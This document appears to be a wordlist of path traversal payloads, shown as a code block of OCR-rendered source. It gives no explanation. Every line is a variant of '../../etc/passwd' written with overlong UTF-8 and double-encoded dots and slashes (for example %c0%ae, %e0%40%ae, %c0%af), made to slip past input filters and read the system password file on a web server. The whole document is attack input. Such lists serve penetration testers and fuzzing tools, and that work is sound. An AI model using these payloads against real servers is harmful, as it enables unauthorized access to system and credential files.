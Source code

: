 ```llvm
%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5cetc/passwd
%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5cetc%c0%80%5cpasswd
%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae/etc/passwd
%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5cetc/passwd
%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5cetc%c0%80%5cpasswd
%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae/etc/passwd
%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5cetc/passwd
%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5cetc%c0%80%5cpasswd
%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae/etc/passwd
%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5cetc/passwd
%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5c%e0%40%ae%e0%40%ae%c0%80%5cetc%c0%80%5cpasswd
%c0ae%c0ae/etc/passwd
%c0ae%c0ae/%c0ae%c0ae/etc/passwd
%c0ae%c0ae/%c0ae%c0ae/%c0ae%c0ae/etc/passwd
%c0ae%c0ae/%c0ae%c0ae/%c0ae%c0ae/%c0ae%c0ae/etc/passwd
%c0ae%c0ae/%c0ae%c0ae/%c0ae%c0ae/%c0ae%c0ae/%c0ae%c0ae/etc/passwd
%c0ae%c0ae%c0%2fetc/passwd
%c0ae%c0ae%c0%2fetc%c0%2fpasswd
%c0ae%c0ae%c0%2f%c0ae%c0ae/etc/passwd
%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2fetc/passwd
%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2fetc%c0%2fpasswd
%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2f%c0ae%c0ae/etc/passwd
%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2fetc/passwd
%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2fetc%c0%2fpasswd
%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2f%c0ae%c0ae/etc/passwd
%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2fetc/passwd
%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2fetc%c0%2fpasswd
%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2f%c0ae%c0ae/etc/passwd
%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2fetc/passwd
%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2f%c0ae%c0ae%c0%2fetc%c0%2fpasswd
%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae%c1%9cetc/passwd
%c0%ae%c0%ae%c1%9cetc%c1%9cpasswd
%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9cetc/passwd
%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9cetc%c1%9cpasswd
%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9cetc/passwd
%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9cetc%c1%9cpasswd
%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9cetc/passwd
%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9cetc%c1%9cpasswd
%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9cetc/passwd
%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9cetc%c1%9cpasswd
%c0%ae%c0%ae%c0%afetc/passwd
%c0%ae%c0%ae%c0%afetc%c0%afpasswd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%afetc/passwd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%afetc%c0%afpasswd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae/etc/passwd
```